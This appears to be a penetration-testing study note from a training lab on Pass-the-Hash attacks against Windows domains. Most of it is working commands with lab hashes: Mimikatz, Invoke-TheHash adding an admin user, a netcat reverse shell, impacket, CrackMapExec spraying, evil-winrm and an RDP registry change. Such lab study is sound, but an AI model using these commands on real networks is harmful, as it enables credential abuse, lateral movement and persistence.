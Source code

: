 ==[[Demo PtH]]==

Hashes can be obtained by:
- Dumping the local Sam database from a compromised host [[Attacking SAM]]
- Extracting hashes from the NTDS database (ntds.dit) on a Domain Controller [[Attacking Active Directory]]
- Pulling the hashes from memory ([lsass.exe](Attacking%20LSASS))

*Examples Use:*
User: julio
Hash: 64F12CDDAA88057E06A81B54E73B949B
Domain: inlanefreight.htb

### Windows New Technology LAN Manager (NTLM) Intro
- A set of security protocols that authenticates users' identities while protecting integrity and confidentiality of data. 
- NTLM is SSO. 
- Kerberos is more common now since Windows 2k
- NTLM passwords are ==not== salted on DCs, allowing PtH attacks

### Pass the Hash with Mimikatz (Windows)
Module: `sekurlsa:pth`
1. */user* - user to impersonate
2. */rc4* or */NTLM* - NTLM hash of password
3. */domain* - Domain the user to impersonate belongs to, or `.` for localhost
4. */run* - The program to run (if not specified `cmd.exe`)

##### Steps:
1. 
```cmd-session
mimikatz.exe privilege::debug "sekurlsa::pth /user:julio /rc4:64F12CDDAA88057E06A81B54E73B949B /domain:inlanefreight.htb /run:cmd.exe" exit
```
2. Now use `cmd.exe` as the user
```cmd
whoami
```
3. Profit
```cmd
sekurlsa::logonpasswords
sekurlsa::tickets /export

sekurlsa::pth /user:Administrateur /domain:winxp /ntlm:f193d757b4d487ab7e5a3743f038f713 /run:cmd
```
### Pass the Hash with PowerShell Invoke-TheHash (Windows)
[Invoke-TheHash](https://github.com/Kevin-Robertson/Invoke-TheHash)
- Attacks: WMI and SMB
- Local admin isn't required client-side
- Admin is required on target

##### Requirements:
- *Target* - Hostname or IP
- *Username* - Username for authentication
- *Domain* - Domain to use. Unnecessary for local accounts or when using @domain after username
- *Hash* - NTLM hash in ` LM:NTLM` or `NTLM` format
- *Command* - Command to execute on the target. Can leave blank to check for WMI acccess

##### SMB method to add user "Mark" and add him to Administrators:
```powershell
PS c:\htb> cd C:\tools\Invoke-TheHash\
PS c:\tools\Invoke-TheHash> Import-Module .\Invoke-TheHash.psd1
PS c:\tools\Invoke-TheHash> Invoke-SMBExec -Target 172.16.1.10 -Domain inlanefreight.htb -Username julio -Hash 64F12CDDAA88057E06A81B54E73B949B -Command "net user mark Password123 /add && net localgroup administrators mark /add" -Verbose
```

##### Reverse Shell with WMI:
1. Start Netcat listener
```powershell
.\nc.exe -lvnp 8001
```
2. Create [Reverse Shell](https://www.revshells.com/) using PowerShell as option
3. Paste output from Step 2 into *Command* argument
```powershell-session
PS c:\tools\Invoke-TheHash> Import-Module .\Invoke-TheHash.psd1
PS c:\tools\Invoke-TheHash> Invoke-WMIExec -Target DC01 -Domain inlanefreight.htb -Username julio -Hash 64F12CDDAA88057E06A81B54E73B949B -Command "powershell -e <output>"
```

### PtH with Impacket (Linux)

##### Use PsExec:
```shell
impacket-psexec administrator@10.129.201.126 -hashes :30B3783CE2ABF1AF70F77D0660CF3453
```

##### Other ways:
- [impacket-wmiexec](https://github.com/SecureAuthCorp/impacket/blob/master/examples/wmiexec.py)
- [impacket-atexec](https://github.com/SecureAuthCorp/impacket/blob/master/examples/atexec.py)
- [impacket-smbexec](https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbexec.py)

### PtH with CrackMapExec (Linux)
Uses "password spraying" as a post exploitation technique to try to authenticate to other hosts on the network. ***This can lock out domain accounts.*** 

```shell
crackmapexec smb 172.16.1.0/24 -u Administrator -d . -H 30B3783CE2ABF1AF70F77D0660CF3453
```

- Execute commands with `- x`
```shell
crackmapexec smb 10.129.201.126 -u Administrator -d . -H 30B3783CE2ABF1AF70F77D0660CF3453 -x whoami
```

##### Auth to all hosts in subnet using local administrator hash:
- Add `--local-auth`
- Useful if we get the ==local administrator== hash by dumping the local SAM database on one host and want to check how many other hosts we can access due to password ==re-use==.

### PtH with evil-winrm (Linux)
- Useful if SMB is blocked or we don't have admin rights

##### Evil-WinRM
```shell
evil-winrm -i 10.129.201.126 -u Administrator -H 30B3783CE2ABF1AF70F77D0660CF3453
```

**Note:** When using a domain account, we need to include the domain name, for example: administrator@inlanefreight.htb

### PtH with RDP (Linux)

`xfreerdp`
Caveats:
- *Restricted Admin Mode* - disabled by default, needs to be enabled
	![[Pasted image 20240716192057.png]]
	Add registry key `DisableRestrictedAdmin` (REG_DWORD) under `HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\Lsa` with the value of 0.
```cmd
reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
```

##### xfreerdp
```shell
xfreerdp  /v:10.129.201.126 /u:julio /pth:64F12CDDAA88057E06A81B54E73B949B
```

### UAC Limits Pass the Hash for Local Accounts
`HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\LocalAccountTokenFilterPolicy` = `0`
- Built-in local admin (RID-500, Administrator) is the only local account allowed to preform remote admin tasks
- Set to `1` allows all local admins
`FilterAdministratorToken` = `1` or "Enabled" (Disabled by default)
- RID 500 is enrolled in UAC Protection, remote PtH will fail when using that account
***THESE ONLY APPLY TO LOCAL ADMIN ACCOUNTS, DOMAIN ADMIN WILL STILL BE ABLE TO PASS THE HASH***

